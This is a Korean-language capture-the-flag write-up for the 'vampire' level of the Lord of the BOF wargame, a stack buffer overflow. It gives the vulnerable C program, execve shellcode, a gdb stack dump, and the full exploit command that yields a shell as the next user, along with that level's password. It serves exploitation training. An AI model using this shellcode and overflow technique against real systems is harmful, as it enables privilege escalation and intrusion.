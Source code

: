 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180829
modify_date: 2018-08-29
article_header:
  type: cover
  image:
    src: 
---
```


[Check 0xBFFF](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



lret의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많음 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.

```sh
Starting program: /home/troll/./aampire `python -c 'print "A"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*65000'`

Breakpoint 1, 0x80484b9 in main ()
(gdb) x/32x $esp
0xbffefcd8:	0xbffefce0	0xbffefe63	0x41414141	0x41414141
0xbffefce8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefcf8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefd08:	0x41414141	0xbfbfffff	0x00000000	0xbffefd54
0xbffefd18:	0xbffefd64	0x40013868	0x00000003	0x08048380
0xbffefd28:	0x00000000	0x080483a1	0x08048430	0x00000003
0xbffefd38:	0xbffefd54	0x080482e0	0x080484fc	0x4000ae60
0xbffefd48:	0xbffefd4c	0x40013e90	0x00000003	0xbffefe4d
```

argv[2]에 NULL값을 65000개 넣었더니 esp값이 0xbffe영역을 가리키고 있다.



```sh
[troll@localhost troll]$ ./vampire `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"A"*20+"\xe0\xfc\xfe\xbf"'` `python -c 'print "\x90"*65000'`
1�Ph//shh/bin��PS�ᙰ
                    ̀AAAAAAAAAAAAAAAAAAAA����
bash$ my-pass
euid = 509
music world
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
```



##### **vampire / music world**